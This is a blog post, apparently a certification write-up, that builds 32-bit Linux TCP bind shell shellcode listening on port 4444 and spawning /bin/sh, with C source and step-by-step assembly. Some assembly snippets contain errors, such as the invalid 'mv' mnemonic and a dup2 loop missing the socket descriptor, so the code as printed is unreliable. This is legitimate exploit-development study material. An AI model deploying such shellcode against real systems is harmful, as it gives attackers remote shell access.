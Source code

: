 ```yaml
---
layout: default
title: "SLAE: Custom TCP Bind shell"
excerpt: "created for completing the requirements of the SecurityTube Linux Assembly Expert certification"
date: 2020-06-15
header:
  teaser:
  teaser_home_page: true
classes: wide
categories:
  - SLAE
  - infosec
tags:
  - shellcode
  - assembly
---
```



#### This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

_*all supporting code can be found [here](https://github.com/RawrRadioMouse/SLAE_study/tree/master/Assignment_1)*_

![slae32](/assets/images/SHELLCODING32.png)
Student ID: SLAE - 1532

This assignment will see us create and examine shellcode with a Bind TCP shell as the payload.

We start by retrieving a bind TCP shell written in C so that we can break it down to determine how we wil go about building our own shellcode:
```
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int socketfd; 
int socketid; 

struct sockaddr_in hostaddr; 

int main() { 
    //Create socket, which returns the file descriptor so we can interact with it
    socketfd = socket(PF_INET, SOCK_STREAM, 0); //here we specify that it is an ipv4 stream type of communication and protocol is 0 (TCP/IP)

    //Initialize sockaddr struct 
    hostaddr.sin_family = AF_INET; //address family set to AF_INET(which is ipv4)
    hostaddr.sin_port = htons(4444); //htons is neccesary so endianness does not reverse how the port is stored in memory, thus scrambling it
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY); //htonl is neccesary so endianness does not reverse how the address is stored in memory, thus scrambling it

    //Bind our socket as defined
    bind(socketfd, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 

    //Start Listening
    listen(socketfd, 2); 

    //Accept incoming connection 
    socketid = accept(socketfd, NULL, NULL); 

    //Create new file descriptors for stdin stdout and stderror, so the client shell will recieve these from our socket 
    dup2(socketid, 0); 
    dup2(socketid, 1); 
    dup2(socketid, 2); 

    //Use execve to excecute /bin/sh from within our program
    execve("//bin/sh", NULL, NULL); //extra slash is to ensure we have to 8bit values to push onto stack later on
} 
```

After looking at the above we know we will need to make use of the following syscalls and functions under socketcall:

* __NR_socketcall	  102
    * SYS_SOCKET 	1
    * SYS_BIND  	2
    * SYS_CONNECT	3
    * SYS_LISTEN 	4
    * SYS_ACCEPT 	5   
* __NR_dup		     41
* __NR_execve		   11

Now, the SYS_SOCKET function takes 3 args as per man page:

![socketcall](/assets/images1/SLAE_1/1.JPG)

The first arg, __domain__ will be set to AF_INET. As per our .c code, we already know what it represents (IPv4)
The second arg, __type__, will be set to SOCK_STREAM. Again we know what this does thanks to the breakdown of our .c code.
The third and final arg __protocol__ will be 0, as according to the man page this only changes under specific circumstances and at this point is beyond the scope of the exercise.

I ended up taking the easy route and using google to obtain these values, as this was the path of least resistance.
```
AF_INET		2 
SOCK_STREAM	1
```
To start converting to assembly we need to understand that syscalls get stored in EAX, with subsequent args going in EBX, ECX, EDX etc.
For socket call:
* syscall value obviously goes in al
* function type (socket, bind, listen etc) goes in bl
* args to function go in ecx.

We need to both zero out our registers with XOR, and place our values in the lowest possible register, example for setting up socketcall below:
```
    xor eax, eax ; we do this both to create a 0x0 value and get eax ready
    push eax ; push 0x0 as third arg
    push 0x1 ; for second arg, the value of SOCK_STREAM
    push 0x2 ; first arg is AF_INET, set address family to ipv4
    xor ecx, ecx ; clear out ecx
    mov ecx, esp ; move our arg values into ecx (place a pointer to these values with an address stored in ecx)
    mv al, 102   ; we move the socketcall syscall value into al, to avoid padding
    mv bl, 1     ; we set function to 1, which is the value of socket (this will change later on to accomodate accept, listen, bind etc)
    int 0x80 ; call system interrupt 
    mov esi, eax ; we store the returning value of our syscall for later use in other functions
```
We now move onto setting up the bind section of the shell.
A quick rundown of what we need to achieve here is:
* set sycall as socketcall again
* this time function will be 2 (SYS_BIND)
* we will need to reference the result of our previously executed syscall (now stored in esi)
* Specify listening address as 0.0.0.0 (all available)
* Specify the port value (/x11/x5C‬, then /x5C/x11 for little endian)
* Specify adress length

I ended up having to do some further research into setting the IP address, as per the man page for bind, the second arg is struct sockaddr, as per man 7 ip this means the address needs to consist of: sin_family, sin_port and sin_addr

![bind](/assets/images/SLAE_1/3.JPG)

![struct sockaddr](/assets/images/SLAE_1/2.JPG)

```
    xor ebx, ebx
    ;create struct sockaddr
    push ebx ; push 0x0 on for listening address
    push word 0x5C11 ; push on reversed value of 4444
    push 0x2 ; push value of AF_INET MAY NEED TO BE WORD??
    mov ecx, esp ; store our created sockaddr struc in ecx
    push 0x10 ; push length of address on (16) third arg
    push ecx ; push our created structure on as second arg
    push esi ; push created socket fd on as first arg
    mov ecx, esp ; move our values into ecx for the syscall
    mv bl, 2 ; we set function to 2, which is the value of bind
    xor eax, eax
    mv al, 102
    int 0x80
```

The next part of the code will set up a listener, man page excerpt below.

![listen](/assets/images/SLAE_1/4.JPG)

SO for the listener we need to provide the socket and backlog length, a simple arg that simply specifies the queue for pending connections.

```
    push 0x1 ; set backlog to 1 (arg 2)
    push esi ; push socket fd on (arg 1)
    mov ecx, esp ; mov the parameters required for listen into ecx for when we call the syscall
    mov bl, 0x4 ; listen function value
    mov al, 102
    int 0x80
```
Now we move onto the accept function.
As per man page, arguments will include our socket fd, struck sockaddr and addr length.

![accept](/assets/images/SLAE_1/5.JPG)

```
    push 0x10 ; length
    xor eax, eax
    push eax ; address
    push esi ; socket fd
    mov ecx, esp
    mov bl, 0x5 ; value for accept function
    mov al, 102
    int 0x80
```
The DUP syscall took me a long time to figure out, it was only after reviewing other students code multiple times I realised exactly what is needed, and it is a lot simpler than I initially thought.
Essentially all we need to use DUP2 for is to copy FD 0,1 and 2 from our OLD FD into a NEW FD. I created a loop as below:

![dup](/assets/images/SLAE_1/6.JPG)
```
    xor ecx,ecx

loop:
    mov al, 63 ; value for dup2
    int 0x80 ; call dup2, putting our zeroed value in
    inc ecx ; increase by 1
    cmp cl, 0x4 ; run through 0,1,2
    jne loop ; continue when it hits 3
```

All that is left to do is to spawn our shell, we do so with execve
```
    xor eax, eax
    push eax

    push 0x68732f2f
    push 0x6e69622f

    mov ebx, esp ; the null and //bin/sh get moved into ebx
    push eax ; push another null onto stack
    mov edx, esp ; move the null into edx
    push ebx ; the null and //bin/sh get pushed back onto stack
    mov ecx, esp ; they then get moved into ecx
    mov al, 11
    int 0x80
```
With all our pieces in place we compile our .nasm code and test it, to make sure that the next steps are not wasted on bad code (this was a good idea, as I realised I forgot to point the stack pointer to ecx in my accept section, which meant my program would just spawn /bin/sh locally xD)
After all this, we can see as below I was able to connect to the bind shell:

![start_bindlisten](/assets/images/SLAE_1/7.JPG)

![connect_to_shell](/assets/images/SLAE_1/9.JPG)

At this point I felt the urge to start enumerating and look for privesc, however I contained myself and continued with the exercise.
Using some [commandlinefu](https://www.commandlinefu.com/commands/view/6051/get-all-shellcode-on-binary-file-from-objdump) I extracted the raw shellcode from my confirmed working binary:
![connect_to_shell](/assets/images/SLAE_1/8.JPG)

We will now WRAP this assignment up by creating (read: stealing and modifying) a [python wrapper](https://github.com/RawrRadioMouse/SLAE_study/blob/master/Assignment_1/wrapper.py) that will allow us to customise the port.
We will take our shellcode from the previous step and use that as our template, the the \x11\x5c (4444) taken out.

A per screen below the script is both fool-proof and accurate.
![wrapper.py](/assets/images/SLAE_1/10.jpg)
